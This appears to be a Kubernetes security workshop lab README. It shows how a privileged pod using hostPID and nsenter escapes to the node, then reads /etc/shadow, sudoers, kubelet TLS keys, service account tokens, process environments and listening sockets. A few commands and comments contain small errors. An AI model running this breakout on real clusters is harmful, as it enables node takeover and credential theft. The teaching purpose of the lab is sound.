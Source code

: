 # Deploy privileged container, A Container That Doesn't Contain Anything

## Quick Start

1. Run the following command to deploy the privilege container

   ```bash
   kubectl run r00t --restart=Never -ti --rm --image lol --overrides '{"spec":{"hostPID": true, "containers":[{"name":"1","image":"alpine","command":["nsenter","--mount=/proc/1/ns/mnt","--ipc=/proc/1/ns/ipc","--net=/proc/1/ns/net","--uts=/proc/1/ns/uts","--","/bin/bash"],"stdin": true,"tty":true,"securityContext":{"privileged":true}}]}}'
   ```

## File System Isolation Breakout

1. Inspect sensitive files and folders on the compromised node

   ```bash
   # Contains the hashed passwords for all users on the system
   cat /etc/passwd
   # Contains the hashed passwords for all users on the system
   cat /etc/shadow
   # Similar to /etc/shadow, but for group account passwords
   cat /etc/gdshadow
   # Defines privileges for users and groups regarding the use of sudo
   cat /etc/sudoers
   ls /etc/sudoers.d/
   # The home directory of the root user
   ls /root
   # The home folders of all users in the system
   ls /home
   ```

1. Identify in which node the privilege container is currently running

   ```bash
   # node name would usually be on the /etc/hosts file
   cat /etc/hosts
   # node name would be passed via the --hostname-override flag in kube-proxy 
   ps -aux | grep "kube-proxy"
   ```

1. Inspect interesting files and folders that belong to the `kubelet` process

   ```bash
   # kubelet configuration
   cat /var/lib/kubelet/config.yaml
   # kubelet client and server tls keys
   ls -lhra /var/lib/kubelet/pki
   # list pods managed by kubelet
   ls -lhra /var/lib/kubelet/pods
   ```

1. Inspect the running containers virtual file systems under the `io.containerd.snapshotter.v1.overlayfs` folder

   ```bash
   ls -lhra /var/lib/containerd/io.containerd.snapshotter.v1.overlayfs
   ```

1. Inspect the mounted volumes and secrets for a particular pod

   > Where $PODID is the uuid of a pod

   ```bash
   # list mounted volumes
   ls -lhra /var/lib/kubelet/pods/$PODID/volumes
   # display the service account token
   cat -lhra /var/lib/kubelet/pods/$PODID/volumes/kubernetes.io~projected/kube-api-access-t4spf/token
   ```

1. Inspect the logs for a particular container

   ```bash
   # list log files for all containers
   ls -lhar /var/log/containers
   # display logs for a particular container, where $CONTAINERID is the filename:
   cat /var/log/containers/{$CONTAINERID}.log
   ```

## Processes Isolation Breakout

1. Run the `top` or `ps -aux` commands and look for interesting processes such as `kubelet`, `containerd` and `systemd`

1. Inspect the environment variables for those privileged processes using the `cat` command:

    ```bash
    # `$PID` is the ID of the `kubelet`, `containerd` or `systemd` processes
    cat /proc/$PID/environ
    ```

    Example output:

    ```bash
    # ie: cat /proc/235/environ
    HTTPS_PROXY=HTTP_PROXY=LANG=C.UTF-8NO_PROXY=PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/binINVOCATION_ID=047f52a1d2854c73b39863c31edb2639JOURNAL_STREAM=8:243012KUBELET_KUBECONFIG_ARGS=--bootstrap-kubeconfig=/etc/kubernetes/bootstrap-kubelet.conf --kubeconfig=/etc/kubernetes/kubelet.confKUBELET_CONFIG_ARGS=--config=/var/lib/kubelet/config.yamlKUBELET_KUBEADM_ARGS=--container-runtime-endpoint=unix:///run/containerd/containerd.sock --node-ip=172.19.0.5 --node-labels= --pod-infra-container-image=registry.k8s.io/pause:3.9 --provider-id=kind://docker/workshop-cluster/workshop-cluster-worker2KUBELET_EXTRA_ARGS=--runtime-cgroups=/system.slice/containerd.service
    ```

    From the above configuration identify the `Node IP` and the `kubelet.conf` configuration file

## Network Isolation Breakout

1. Run the `ss` command to list all current listening sockets and network information for the compromised node:

   ```bash
   ss -nltp
   ```

   Example output:

   ```bash
   # ss -nltp
   State  Recv-Q Send-Q Local Address:Port  Peer Address:PortProcess
   LISTEN 0      4096      127.0.0.11:38803      0.0.0.0:*
   LISTEN 0      4096       127.0.0.1:41225      0.0.0.0:*    users:(("containerd",pid=105,fd=10))
   LISTEN 0      4096       127.0.0.1:10248      0.0.0.0:*    users:(("kubelet",pid=234,fd=17))
   LISTEN 0      4096       127.0.0.1:10249      0.0.0.0:*    users:(("kube-proxy",pid=384,fd=11))
   LISTEN 0      4096               *:10250            *:*    users:(("kubelet",pid=234,fd=25))
   LISTEN 0      4096               *:10256            *:*    users:(("kube-proxy",pid=384,fd=8))
   ```

End the lab by `<ctrl-c>` from the privileged container

## Resources

- <https://kubernetes.io/docs/reference/command-line-tools-reference/kubelet/>
- <https://medium.com/nttlabs/the-internals-and-the-latest-trends-of-container-runtimes-2023-22aa111d7a93>
- <https://github.com/shubheksha/kubernetes-internals>
- <https://man7.org/linux/man-pages/man1/nsenter.1.html>
